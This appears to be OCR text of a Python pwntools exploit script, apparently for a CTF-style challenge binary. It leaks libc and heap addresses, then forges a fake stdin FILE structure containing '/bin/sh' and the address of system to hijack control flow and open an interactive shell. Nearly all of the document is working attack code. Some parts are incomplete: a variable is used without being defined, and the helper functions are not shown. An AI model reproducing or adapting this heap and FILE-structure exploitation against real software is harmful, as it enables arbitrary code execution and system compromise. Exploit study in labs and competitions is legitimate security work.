 ```python
def config_exploit_IO(libc, heap):
    _IO_list = libc + 0x1cb5a0 - 0x10
    _STDIN_chain = libc + 0x1ec980 + 0x68
    system_addr = libc+0x52290
    
    _IO_wfile_jumps = libc+0x1e8f60
    another_heap = heap+0x12470
    fake_stdin = heap+0x12380 
    log.success("another heap address is " + hex(another_heap))
    log.success("name heap address is " + hex(name_heap))

    configs = []
    name = b'aaa'
    # prepare first heap
    content = b'a'*32+p64(_STDIN_chain-0x8)+b'a'*23
    configs.append(new_cfg(1, name, content, 0))

    # update it!

    name = b'/bin/sh\x00'+p64(0) + p64(0x10)+p64(system_addr)+p64(1)+p64(0x100)+p64(0)*14+p64(another_heap)+p64(0)+p64(0)+p64(0)+p64(1)+p64(0)+p64(0)+p64(_IO_wfile_jumps+0x30) #fake_stdin

    content = p64(510)+p64(0)+p64(0)+p64(510)+p64(530)+p64(0)+p64(0)+p64(0)+p64(0)*20+p64(fake_stdin)
    configs.append(new_cfg(2, name, content, 0))
    # update the target
    # add another file ptr
    payload = b""
    payload += p32(1)
    payload += p32(0x41)
    payload += p32(len(configs))

    for each in configs:
        payload += each

    return payload

payload = config_leak_libc_unsorted()
ph.recvuntil("Enter command:")
ph.sendline(payload)
c1 = ph.recvuntil("Current Object Name:")
ph.recvuntil("Content: ")
libc_base = u64(ph.recvuntil("\n")[:-1].ljust(8,b'\x00'))
libc_base = libc_base-0x1ecbe0

ph.recvuntil("Enter command:")
payload = config_leak_heap_unsorted()
ph.sendline(payload)
c2 = ph.recvuntil("Current Object Name:")
ph.recvuntil("Content: ")
heap_base = u64(ph.recvuntil("\n")[:-1].ljust(8,b'\x00'))
heap_base = heap_base - 0x127f0

payload = config_exploit_IO(libc_base, heap_base)
ph.recvuntil("Enter command:")
ph.sendline(payload)

ph.recvuntil("Enter command:")
ph.sendline(b"T")
ph.interactive()
```

